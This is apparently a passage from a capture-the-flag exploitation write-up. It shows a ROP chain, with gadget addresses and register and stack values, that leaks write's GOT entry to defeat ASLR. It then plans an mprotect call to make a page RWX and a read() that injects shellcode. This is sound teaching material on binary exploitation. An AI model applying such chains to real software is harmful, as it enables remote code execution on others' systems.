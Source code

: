 Now it's time to force ```write``` to leak its ```GOT``` entry. Following chain will leak the libc pointer

```assembly
@4013f2
pop rbx
pop rbp
mov r12, qword [rsp]
add rsp, 0x8
ret

< rbx: write_got @ 0x0000000000404028 >
< rbp: write_got @ 0x0000000000404028 >
< r12: write_got @ 0x0000000000404028 >

@4013c0
mov rsi, rbx
lea eax, [rbp + rsi]
cmp r12d, eax
jle 0x4013e9          --------+
                              |
[...]                         | r12d <= rbp + rsi
                              |
mov eax, 0            <-------+
add rsp, 0x10
pop rbx
pop rbp
mov r12, qword [rsp]
add rsp, 0x8
ret

< [rsp+0x00] padding >
< [rsp+0x08] padding >
< rbx: 0x00000000 >
< rbp: 0x00000001 >
< r12: 0x00000000 >

@401441
mov edi, 1
mov edx, 8
call write@plt
add rsp, 0x18
ret

< [rsp+0x00] padding >
< [rsp+0x08] padding >
< [rsp+0x10] padding >

< sym.vuln @ 0x401415 (restart input) >
```

We now have access to libc gadgets, so let's get rid of ```W^X``` by using the ```mprotect```
syscall with ```start = 0x0000000000404000```, ```len = 0x3000``` and ```prot = 0x7 (RWX)```. Right after
setting up a ```RWX page```, we need to make another syscall to ```read``` in order to write our shellcode
to the page
